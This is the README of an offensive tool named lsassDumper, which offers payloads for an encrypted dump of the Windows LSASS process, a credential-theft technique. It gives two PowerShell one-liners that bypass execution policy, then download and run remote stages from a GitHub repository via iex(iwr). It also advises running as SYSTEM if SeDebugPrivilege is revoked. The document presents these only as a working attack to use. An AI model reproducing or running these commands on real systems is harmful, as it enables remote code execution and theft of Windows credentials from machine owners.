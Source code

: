 # lsassDumper

This project provide the necessary payloads to perform an encrypted dump of LSASS in C:\ProgramData

To use hosted payloads (download the b64 stage from this repo at runtime), execute :

`powershell -ep bypass -noexit -c "iex(iwr -useb https://raw.githubusercontent.com/666reda/lsassDumper/main/inj.log)"`

To use the standalone powershell payload, execute :

`powershell -ep bypass -noexit -c "iex(iwr -useb https://raw.githubusercontent.com/666reda/lsassDumper/main/inj2.log)"`

If SeDebugPrivilege is revoked from local admin accounts, you might want to execute the command as SYSTEM. 
